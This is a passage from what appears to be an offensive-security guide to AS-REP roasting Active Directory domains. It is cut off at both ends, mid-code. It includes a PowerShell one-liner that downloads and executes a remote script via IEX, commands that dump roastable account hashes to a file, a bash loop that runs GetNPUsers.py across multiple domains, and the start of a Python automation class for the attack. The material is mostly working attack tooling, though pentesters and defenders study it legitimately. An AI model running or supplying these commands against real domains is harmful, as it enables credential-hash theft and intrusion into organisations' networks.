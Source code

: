 ```powershell
        $Searcher.SearchRoot = "LDAP://$Domain"
        # Implementation...
    }
}
```

#### ASREPRoast.ps1
```powershell
# Standalone script for AS-REP roasting
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HarmJ0y/ASREPRoast/master/ASREPRoast.ps1')

# Basic execution
Invoke-ASREPRoast

# Output to file
Invoke-ASREPRoast | Out-File -Encoding ASCII hashes.txt

# Target specific domain
Invoke-ASREPRoast -Domain company.com
```

### Automation and Scripting

#### Bash Script for Multiple Domains
```bash
#!/bin/bash

domains=("company.com" "subsidiary.com" "partner.com")
userlist="users.txt"

for domain in "${domains[@]}"; do
    echo "[*] Testing domain: $domain"
    
    # Get domain controller
    dc=$(nslookup -type=SRV _ldap._tcp.dc._msdcs.$domain | grep -oP '(?<=target: )[^.]+')
    
    if [ ! -z "$dc" ]; then
        echo "[+] Found DC: $dc.$domain"
        
        # Perform AS-REP roasting
        GetNPUsers.py $domain/ -usersfile $userlist -format hashcat -outputfile ${domain}_hashes.txt
    fi
done
```

#### Python Automation Framework
```python
import subprocess
import threading
from concurrent.futures import ThreadPoolExecutor

class ASREPRoaster:
    def __init__(self, domain, dc_ip=None, userlist=None):
        self.domain = domain
        self.dc_ip = dc_ip
        self.userlist = userlist
        self.results = []
    
    def enumerate_users(self):
        """Enumerate domain users"""
        cmd = f"GetNPUsers.py {self.domain}/ -no-pass"
        if self.dc_ip:
```